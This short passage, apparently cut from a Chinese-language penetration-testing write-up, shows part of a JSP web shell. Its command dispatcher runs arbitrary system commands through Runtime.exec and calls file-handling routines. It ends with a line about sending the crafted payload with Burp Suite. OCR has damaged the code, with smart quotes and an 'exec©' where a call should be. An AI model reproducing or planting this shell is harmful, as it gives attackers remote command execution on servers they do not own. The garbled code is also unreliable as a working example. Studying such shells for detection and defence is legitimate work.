 ```
} else if (Z.equals(“M”)) {

String[] c = { z1.substring(2), z1.substring(0, 2), z2 };

Process p = Runtime.getRuntime().exec©;

MM(p.getInputStream(), sb);

MM(p.getErrorStream(), sb);

} else if (Z.equals(“N”)) {

NN(z1, sb);

} else if (Z.equals(“O”)) {

OO(z1, sb);

} else if (Z.equals(“P”)) {

PP(z1, sb);

} else if (Z.equals(“Q”)) {

QQ(cs, z1, z2, sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\", “/”)+“images/”);

}

} catch (Exception e) {

sb.append(“ERROR” + “:// " + e.toString());

}

sb.append(”|" + “<-”);

out.print(sb.toString());

}

%>` 
```

我们还是利用burpsuite发送我们构造的payload：
